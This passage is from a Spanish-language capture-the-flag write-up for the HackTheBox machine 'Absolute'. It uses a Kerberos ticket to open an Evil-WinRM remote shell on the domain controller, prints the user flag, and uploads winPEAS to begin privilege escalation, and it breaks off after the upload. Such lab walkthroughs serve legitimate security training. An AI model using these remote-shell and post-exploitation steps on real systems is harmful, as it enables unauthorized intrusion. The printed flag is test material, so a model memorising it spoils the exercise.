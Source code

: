 ## winrm_user

- Ahora nos conectamos.

```bash
➜  content export KRB5CCNAME=winrm_user.ccache
➜  content evil-winrm -i dc.absolute.htb -r absolute.htb

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\winrm_user\Documents>
```

## User flag

- Podemos leer la flag.

```bash
*Evil-WinRM* PS C:\Users\winrm_user\Desktop> type user.txt
7db70aea6e4e1e5f4b858e1136fdc263
```

## Privilege Escalation

- Para enumerar el sistema podemos usar winpeas <https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS>.

- La máquina en lo persona falla demasiado así que tuve que hacer lo mismo varias veces hasta para ejecutar el `winPEASx64.exe`.

- Tenia mucho este error.

```bash
malloc_consolidate(): unaligned fastbin chunk detected
[1]    109301 IOT instruction  evil-winrm -i dc.absolute.htb -r absolute.htb
```

```bash
*Evil-WinRM* PS C:\Users\winrm_user\Documents> upload /home/miguel/Hackthebox/Gatogamer_account/Absolute/content/winPEASx64.exe

Info: Uploading /home/miguel/Hackthebox/Absolute/content/winPEASx64.exe to C:\Users\winrm_user\Documents\winPEASx64.exe

Data: 3183272 bytes of 3183272 bytes copied

Info: Upload successful!
```
